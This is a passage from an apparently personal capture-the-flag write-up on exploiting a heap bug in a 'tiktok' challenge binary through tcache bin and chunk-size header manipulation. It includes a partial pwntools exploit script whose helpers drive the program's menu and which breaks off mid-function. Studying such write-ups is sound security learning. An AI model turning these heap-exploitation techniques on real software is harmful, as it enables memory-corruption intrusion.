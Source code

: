 (Again, trashcanna's solution did involve messing with this struct. Lots of the nudges I got from her was to use this exploitation path, but I'm a heap noob and was unable to figure it out, so I decided to find my own way out. I'll add her solution writeup to the bottom when they come).

Eventually, I was able to find my way out that only used tcache bin mechanisms: No unsorted bins, and no per_thread_struct overwrites.

## A leak in the darkness.

![](https://i.imgur.com/VS2mv7f.png)

(source: me)

So, what should we do? What else can we overwrite on our heap that may be of interest to us?

Well, the `fd` pointers aren't the only things that exist on the heap. The `mchunk_size` headers exist as well, and while they in itself don't allow you to arbitrarily gain control of memory, maybe we can still mess with them to put ourselves in a good position?

Anyways, recall that our exploit script is currently the following:

```python
from pwn import *
import struct

#Song size:
"""
<directory>: 1 bytes

Animal/animal.txt: 946 bytes
Rainbow/godzilla.txt: 767 bytes
Warrior/pastlive.txt: 829 bytes
"""

context.binary = "./tiktok"
context.terminal = "/bin/bash"

#sh = remote('ctf.umbccd.io', 4700)
sh = process('./tiktok')

@atexception.register
def handler():
	log.failure(sh.recvall())

def imp(path):
	sh.sendlineafter("Choice: ","1")
	sh.sendline(path)
	sh.recvuntil("like to do today?")

def list(amount, tag):
	sh.sendline("2")
	sh.recvuntil(tag)
	return sh.recv(amount)

def play(id, tag="", amount=0):
	sh.sendlineafter("Choice: ", "3")
	sh.sendline(id)
	sh.recvuntil(tag)
	s = sh.recv(amount)
	sh.recvuntil("like to do today?")
	return s

def play_overflow(id, length, content): #Use this if the song you're going to play has its file descriptor overwritten by stdin
	sh.sendlineafter("Choice: ", "3")
	sh.sendline(id)
```
